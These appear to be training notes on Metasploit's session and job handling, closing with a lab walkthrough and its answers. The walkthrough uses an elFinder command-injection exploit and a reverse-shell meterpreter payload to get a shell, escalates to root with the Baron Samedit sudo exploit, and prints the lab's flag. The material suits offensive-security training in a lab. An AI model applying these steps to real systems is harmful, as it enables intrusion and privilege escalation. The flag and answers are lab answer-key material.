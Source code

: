 MSFconsole can manage multiple modules at the same time. This is one of the many reasons it provides the user with so much flexibility. This is done with the use of `Sessions`, which creates dedicated control interfaces for all of your deployed modules.

Once several sessions are created, we can switch between them and link a different module to one of the backgrounded sessions to run on it or turn them into jobs. Note that once a session is placed in the background, it will continue to run, and our connection to the target host will persist. Sessions can, however, die if something goes wrong during the payload runtime, causing the communication channel to tear down.

## Using Sessions

While running any available exploits or auxiliary modules in msfconsole, we can background the session as long as they form a channel of communication with the target host. This can be done either by pressing the `[CTRL] + [Z]` key combination or by typing the `background` command in the case of Meterpreter stages. This will prompt us with a confirmation message. After accepting the prompt, we will be taken back to the msfconsole prompt (`msf6 >`) and will immediately be able to launch a different module.

#### Listing Active Sessions

We can use the `sessions` command to view our currently active sessions.

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

#### Interacting with a Session

You can use the `sessions -i [no.]` command to open up a specific session.

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

This is specifically useful when we want to run an additional module on an already exploited system with a formed, stable communication channel.

This can be done by backgrounding our current session, which is formed due to the success of the first exploit, searching for the second module we wish to run, and, if made possible by the type of module selected, selecting the session number on which the module should be run. This can be done from the second module's `show options` menu.

Usually, these modules can be found in the `post` category, referring to Post-Exploitation modules. The main archetypes of modules in this category consist of credential gatherers, local exploit suggesters, and internal network scanners.

## Jobs

If, for example, we are running an active exploit under a specific port and need this port for a different module, we cannot simply terminate the session using `[CTRL] + [C]`. If we did that, we would see that the port would still be in use, affecting our use of the new module. So instead, we would need to use the `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

Other types of tasks inside sessions can also be converted into jobs to run in the background seamlessly, even if the session dies or disappears.

#### Viewing the Jobs Command Help Menu

We can view the help menu for this command, like others, by typing `jobs -h`.

```shell-session
msf6 exploit(multi/handler) > jobs -h
Usage: jobs [options]

Active job manipulation and interaction.

OPTIONS:

    -K        Terminate all running jobs.
    -P        Persist all running jobs on restart.
    -S <opt>  Row search filter.
    -h        Help banner.
    -i <opt>  Lists detailed information about a running job.
    -k <opt>  Terminate jobs by job ID and/or range.
    -l        List all running jobs.
    -p <opt>  Add persistence to job by job ID
    -v        Print more detailed info.  Use with -i and -l
```

#### Viewing the Exploit Command Help Menu

When we run an exploit, we can run it as a job by typing `exploit -j`. Per the help menu for the `exploit` command, adding `-j` to our command. Instead of just `exploit` or `run`, will "run it in the context of a job."

```shell-session
msf6 exploit(multi/handler) > exploit -h
Usage: exploit [options]

Launches an exploitation attempt.

OPTIONS:

    -J        Force running in the foreground, even if passive.
    -e <opt>  The payload encoder to use.  If none is specified, ENCODER is used.
    -f        Force the exploit to run regardless of the value of MinimumRank.
    -h        Help banner.
    -j        Run in the context of a job.
	
<SNIP
```

#### Running an Exploit as a Background Job

```shell-session

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

#### Listing Running Jobs

To list all running jobs, we can use the `jobs -l` command. To kill a specific job, look at the index no. of the job and use the `kill [index no.]` command. Use the `jobs -K` command to kill all running jobs.

```shell-session

msf6 exploit(multi/handler) > jobs -l

Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Next up, we'll work with the extremely powerful `Meterpreter` payload.


The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

`elFinder`

Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`www-data`
* read the information on how the exploit works from RAPID7 [here](https://www.rapid7.com/db/modules/exploit/linux/http/elfinder_archive_cmd_injection/)
* another option is to change the payload for a shell reverse one, this will not give you an interactive shell
* in my case i used the `which python3` command to check for python3 existence
* run command `python3 -c 'import pty; pty.spawn("/bin/bash")'` to have TTY access
* type `whoami` and check the username

alternatively you can:
* set the payload on the same exploit to be `linux/x64/meterpreter/reverse_tcp`
* set the RHOSTS to be the one deployed by HTB
* set the LHOST to be your ip or the vpn ip provided
* once the meterpreter shell is running, use the `getuid` command

The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

`HTB{5e55ion5_4r3_sw33t}`
* run command `sudo -V` to check for the current sudo version, which should be `1.8.31`
* run command `background` to create a session out of your current exploit
* search for information about the sudo version, youll find the exploit name is baron samedit
* run command `search baron` on msfconsole
* use the exploit and run the `options` command
* set the SESSION to the current backgrounded session
* set the LHOST to be your ip or the vpn ip provided
* make sure the payload is the same as in the session, in this case is `linux/x64/meterpreter/reverse_tcp`
* run the exploit, then make sure you got the right exploit by typing `getuid`
* go to root folder and run command `cat flag.txt`